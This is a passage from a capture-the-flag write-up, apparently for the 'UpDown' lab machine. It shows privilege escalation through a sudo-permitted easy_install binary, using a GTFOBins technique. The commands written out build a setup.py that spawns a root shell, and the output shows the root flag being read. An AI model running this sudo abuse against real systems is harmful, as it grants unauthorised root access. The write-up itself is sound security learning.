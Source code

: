 That `easy_install` looked very uncommon, so I headed over there and started investigating this binary. I started by googling and I found on `GTFObins` some `easy_install` exploits, I used [this script](https://gtfobins.github.io/gtfobins/easy_install/#shell:~:text=Sudo-,Shell,-It%20can%20be) and I got root access and root flag!

```bash
developer@updown:/usr/local/bin$ TF=$(mktemp -d)
developer@updown:/usr/local/bin$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/usr/local/bin$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.iSNVcpflTZ
Writing /tmp/tmp.iSNVcpflTZ/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.iSNVcpflTZ/egg-dist-tmp-qYD6CV
# whoami
root
# cd /root
# ls   
root.txt  snap
# cat root.txt
55347a7a9b63296a62fb6ebfa62281e1
```

---
